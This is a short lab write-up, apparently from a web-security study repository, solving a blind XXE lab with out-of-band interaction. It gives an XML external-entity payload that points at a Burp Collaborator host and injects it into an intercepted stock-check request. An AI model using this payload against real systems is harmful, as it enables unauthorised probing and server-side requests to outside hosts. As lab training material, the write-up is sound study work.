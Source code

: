 # Lab: Blind XXE with out-of-band interaction #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/f7ebb739-39fe-4572-b3a8-adfb5aa997ea)

> Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/609db0c6-9e98-4924-abaf-681b60e57851)

> We have intercepted the request now we will add payload

```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "h5nupa9nlvsbsqhwpzzuihxz6qch0do2.oastify.com"> ]>
```
Replace the productId number with a reference to the external entity: &xxe;

> We got some response in collaborator

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/5b3e4791-808e-47a6-8936-67afc81beafd)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/22cb23f9-dfd9-4e1a-b143-cc0a526a8f60)
